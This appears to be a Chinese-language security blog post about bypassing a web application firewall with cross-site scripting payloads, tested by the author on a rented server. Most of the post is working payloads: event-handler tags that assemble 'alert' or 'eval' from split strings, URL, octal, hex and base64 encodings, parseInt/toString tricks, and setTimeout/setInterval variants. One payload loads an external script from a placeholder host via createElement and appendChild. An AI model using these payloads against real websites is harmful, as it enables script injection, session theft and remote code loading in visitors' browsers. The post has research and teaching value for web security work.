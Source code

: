 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
`setTimeout`比eval略眼熟，也是比较常见的。

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

